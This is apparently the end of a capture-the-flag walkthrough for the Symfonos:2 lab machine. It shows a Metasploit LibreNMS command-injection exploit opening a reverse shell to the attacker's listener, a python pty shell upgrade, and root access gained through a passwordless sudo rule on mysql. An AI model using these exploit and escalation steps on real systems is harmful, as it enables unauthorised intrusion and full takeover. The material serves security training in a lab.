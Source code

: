 We must set LHOST to our address for the vbox interface, as the address must be accessible from the target

```
msf5 exploit(linux/http/librenms_addhost_cmd_inject) > exploit

[*] Started reverse TCP double handler on 192.168.56.1:4444 
[*] Successfully logged into LibreNMS. Storing credentials...
[SNIP]
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.133:43528) at 2021-01-02 22:15:10 -0500

id
uid=1001(cronus) gid=1001(cronus) groups=1001(cronus),999(librenms)
```

We now have user cronus
Spawning an interactive shell:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Check if cronus can run anything with elevated privileges:

```
cronus@symfonos2:/opt/librenms/html$ sudo -l 
sudo -l
Matching Defaults entries for cronus on symfonos2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cronus may run the following commands on symfonos2:
    (root) NOPASSWD: /usr/bin/mysql

```

We can use the execute parameter to get a shell:

```
sudo mysql -e '\! /bin/sh'
# id
id
uid=0(root) gid=0(root) groups=0(root)
```

##### Root Flag:

```
# cd /root
cd /root
# ls
ls
proof.txt
# cat proof.txt	
cat proof.txt

	Congrats on rooting symfonos:2!
[SNIP]
```

FIN. 🥳